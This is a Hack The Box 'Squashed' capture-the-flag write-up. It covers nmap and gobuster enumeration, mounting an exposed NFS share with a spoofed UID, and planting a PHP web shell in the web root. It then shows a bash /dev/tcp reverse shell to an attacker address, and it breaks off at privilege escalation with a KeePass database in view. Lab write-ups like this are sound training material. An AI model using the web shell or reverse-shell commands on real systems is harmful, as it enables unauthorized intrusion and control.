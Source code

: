 # Squashed | HTB
### Difficulty Level: Easy
------------------------------------

Let's start with nmap scan:

```bash
nmap -p- -T4 -A 10.10.11.191 -oN squashed.nmap 
```

-p- scans all ports within the machine instead of the 1000 common.

-T4 - increases the speed of the scan.

-A - aggresive scan to gather mor information.

-oN - saves the output to a file.


Results:
```bash
Nmap scan report for 10.10.11.191
Host is up (0.12s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100005  1,2,3      38961/udp   mountd
|   100005  1,2,3      39445/tcp   mountd
|   100005  1,2,3      47585/tcp6  mountd
|   100005  1,2,3      58832/udp6  mountd
|   100021  1,3,4      34305/tcp   nlockmgr
|   100021  1,3,4      37751/tcp6  nlockmgr
|   100021  1,3,4      42038/udp6  nlockmgr
|   100021  1,3,4      44469/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34305/tcp open  nlockmgr 1-4 (RPC #100021)
39445/tcp open  mountd   1-3 (RPC #100005)
41123/tcp open  mountd   1-3 (RPC #100005)
53489/tcp open  mountd   1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/22%OT=22%CT=1%CU=41001%PV=Y%DS=2%DC=T%G=Y%TM=65FD
OS:C504%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=102%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=FC%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FD%GCD=1%ISR=102%TI=Z%CI=Z%
OS:TS=A)SEQ(SP=FD%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FD%GCD=1%ISR=103
OS:%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O
OS:4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=
OS:FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=
OS:Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y
OS:%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RU
OS:D=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   164.52 ms 10.10.14.1
2   164.58 ms 10.10.11.191

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.91 seconds
```

There are 8 open ports:

22 - ssh

80 - http 

111 - rpcbind 

and... other open ports relate to rpc.

rpcbind is a program used in Unix and Linux operating systems. It acts as a directory service for remote procedure call (RPC) programs.

I have an access to webpage.


![image](https://cdn-images-1.medium.com/max/1000/1*VXF4lrKjyHJCpZBi89cxcQ.png)


First, I tried to understand the functionality of the webpage by inspecting it.

Let's use gobuster to find out if there are any directories:

```bash
└─# gobuster dir -u http://10.10.11.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.11.191/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.191/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.191/js/]
Progress: 46337 / 220561 (21.01%)
Progress: 46476 / 220561 (21.07%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 46494 / 220561 (21.08%)
===============================================================
Finished
```

Nothing there. On this system there is nfs service that run on it.
nfs Is a distributed file system protocol that allows a user on a client computer
to access files over a network as if they were stored locally.
NFS enables sharing files and directories among multiple computers in a network, typically within a Unix-like environment.

By using showmount we can watch the shared files within the server.

```bash
showmount -e 10.10.11.191
```

-e means export the files from the system.

```
/home/ross    *
/var/www/html *
```

There is username: ross.

the * sign means these directories are deafult shares if other directories weren't mentioned.

to use mount, I need to creat new user that has the same uid to make the mount successfully.

```bash
sudo mount -t nfs 10.10.11.191:/var/www/html <directory-to-mount-into-it>
```

```
So, create new user with uid of 2017:

```bash
sudo useradd -u 2017 toni
then set a pswword with:
sudo passwd toni
```

now, su toni and cd to the mounted directory, there upload a php code that will let use to run arbitrary commend within the system:

```bash
echo '<?php system($_GET['cmd']); ?>' > command.php
```

```
toni@kali:/home/kali/Desktop/CTF/HTB/squashed$ cat command.php
<?php system($_GET['cmd']); ?>
```

This code let us to run system command inside the variable 'cmd' in GET method.

Access the file throught the url and enter a command:


![image](https://cdn-images-1.medium.com/max/1000/1*yNKEgs0qrNZqFJhz0pd8wQ.png)


It works. Let's get a bash reverse shell and encode it for the url to inerpert it right:

```bash
bash -c 'bash -i >%26 /dev/tcp/<tun-0>/4444 0>%261'

and set netcat listener:

nc -lnvp 4444
```


and there is a shell as alex:
```bash
└─# nc -lnvp 4444            
listening on [any] 4444 ...
connect to [tun-0] from (UNKNOWN) [10.10.11.191] 46970
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ ls
ls
command.php
css
images
index.html
js
alex@squashed:/var/www/html$
```

Grab the user.txt flag.

```bash
alex@squashed:/home/alex$ cat user.txt
cat user.txt
********************************
alex@squashed:/home/alex$
```

Let's go, get your root.

First, I uploaded linpeas.sh to the target machine with python http server.
It didn't find anything interesting.

I decided to read /etc/crontab but there is nothing.

Next, I uploaded pspy script to view processes that run within the system.

There is something interesting:
```bash
2024/03/23 00:52:41 CMD: UID=1001 PID=1653   | /usr/bin/keepassxc --pw-stdin --keyfile /usr/share/keepassxc/keyfiles/ross/keyfile.key /usr/share/keepassxc/databases/ross/Passwords.kdbx ```
```

There is keepass file that includes passwords, maybe there is something that will help us.






















































